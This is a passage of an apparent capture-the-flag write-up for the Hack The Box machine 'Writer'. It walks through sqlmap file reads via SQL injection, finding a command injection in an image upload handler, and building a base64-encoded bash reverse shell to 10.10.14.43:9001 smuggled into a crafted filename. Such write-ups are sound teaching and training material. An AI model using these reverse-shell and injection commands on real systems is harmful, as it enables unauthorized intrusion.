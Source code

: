 We see the users john and kyle have accounts on the machine, these are the users we found earlier with our SMB enumeration. Both users have bash shells on login.

Knowing the web-server is running apache, we first use the SQLi to download /etc/apache2/sites-enabled/000-default.conf. In that, we're able to find reference to some dev config and a path to some web files and the wsgi file.

Next, we download the wsgi file:
```text
cat /home/gn0stic/.local/share/sqlmap/output/writer.htb/files/_var_www_writer.htb_writer.wsgi

#!/usr/bin/python
import sys
import logging
import random
import os

# Define logging
logging.basicConfig(stream=sys.stderr)
sys.path.insert(0,"/var/www/writer.htb/")

# Import the __init__.py from the app folder
from writer import app as application
application.secret_key = os.environ.get("SECRET_KEY", "")
```

We see a hint about importing the __init__.py from the app folder. Let's once again use sqlmap to try and find the __init__.py file the wsgi file speaks of:
```text
sqlmap -u "http://writer.htb/administrative" --data="uname=test&password=test" --file-read=/var/www/writer.htb/writer/__init__.py
```

## Foothold

Looking through the the __init__.py file we find that if the image_url variable is populated it uses urllib.request.urlretrieve to download the file. The returned local filename variable is then used in an os.system call:
```text
os.system("mv {} {}.jpg".format(local_filename, local_filename))
```

Reading the docs on the urlretrieve function, if the file passed in is a local file, the function returns the path to the file on the local machine. If it's a remote file, the filename is randomized and placed in /tmp.

Since we control the filename by uploading files via the blog post image upload, we have a way to perform command injection when the os.system tries to move the file.

Let's try to have the os.system function initiate a reverse shell back to our attacking machine. To do that, I first base64 the bash reverse shell:
```text
echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.43/9001 0>&1"' | base64
```

Next, we create a filename like so:
```
touch 'b00m.jpg;echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDMvOTAwMSAwPiYxIg==|base64 -d|bash;'
```
